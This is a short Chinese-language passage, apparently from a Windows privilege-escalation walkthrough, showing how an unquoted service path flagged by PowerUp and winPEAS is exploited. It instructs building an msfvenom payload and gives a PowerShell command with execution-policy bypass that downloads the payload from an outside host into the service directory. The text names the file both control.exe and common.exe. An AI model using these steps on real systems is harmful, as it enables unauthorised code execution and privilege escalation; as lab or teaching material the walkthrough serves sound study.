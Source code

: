 ![](img/5aa9c581c58aa4d8565b50cb740c96ef.png)

通电检测到未引用的服务路径

![](img/7ace1156a97dddd6fdf95bb03806aeec.png)

winPEAS 检测到可写路径

用`msfvenom`创建一个有效载荷，并将其命名为 control.exe。将其放在`C:\Program Files\Unquoted Path Service\common.exe`目录中。

```
powershell -nop -exec bypass -c "(New-Object Net.WebClient).DownloadFile('[http://192.168.0.114:8080/common.exe'](http://192.168.0.114:8080/common.exe'), 'C:\Program Files\Unquoted Path Service\common.exe')"
```

![](img/0f30ed312642592db381c62a9793bdcc.png)
